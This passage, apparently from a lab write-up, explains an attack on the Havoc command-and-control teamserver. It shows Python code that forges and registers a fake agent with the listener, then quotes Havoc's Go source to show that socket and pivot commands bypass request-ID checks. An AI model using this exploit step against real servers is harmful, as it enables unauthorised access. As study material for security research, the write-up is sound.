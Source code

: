 ```
    header_data = command + request_id + AES_Key + AES_IV + demon_id + hostname_length + hostname + username_length + username + domain_name_length + domain_name + internal_ip_length + internal_ip + process_name_length + process_name + process_id + data

    size = 12 + len(header_data)
    size_bytes = size.to_bytes(4, 'big')
    agent_header = size_bytes + magic + agent_id

    print("[***] Trying to register agent...")
    r = requests.post(teamserver_listener_url, data=agent_header + header_data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Success!")
    else:
        print(f"[!!!] Failed to register agent - {r.status_code} {r.text}")

```

The vast majority of these commands are authenticated. Only if the listener issues a command to do something will it process the command from the demon in response. This is checked with the `IsKnownRequestID` [function](https://github.com/HavocFramework/Havoc/blob/41a5d45c2b843d19be581a94350c532c1cd7fd49/teamserver/pkg/agent/agent.go#L609-L629) in Havoc in the `TaskDispatch` [function](https://github.com/HavocFramework/Havoc/blob/41a5d45c2b843d19be581a94350c532c1cd7fd49/teamserver/pkg/agent/demons.go#L2290):

```

func (a *Agent) TaskDispatch(RequestID uint32, CommandID uint32, Parser *parser.Parser, teamserver TeamServer) {
	var NameID, _ = strconv.ParseInt(a.NameID, 16, 64)
	AgentID := int(NameID)

	/* if the RequestID was not generated by the TS, reject the request */
	if a.IsKnownRequestID(teamserver, RequestID, CommandID) == false {
		logger.Warn(fmt.Sprintf("Agent: %x, CommandID: %d, unknown RequestID: %x. This is either a bug or malicious activity", AgentID, CommandID, RequestID))
		return
	}

	switch CommandID {
...[snip]...

```

However, at the top of `IsKnownRequestID`, there are a couple exceptions:

```

// check that the request the agent is valid
func (a *Agent) IsKnownRequestID(teamserver TeamServer, RequestID uint32, CommandID uint32) bool {
	// some commands are always accepted because they don't follow the "send task and get response" format
	switch CommandID {
	case COMMAND_SOCKET:
		return true
	case COMMAND_PIVOT:
		return true
	}
...[snip]...	

```

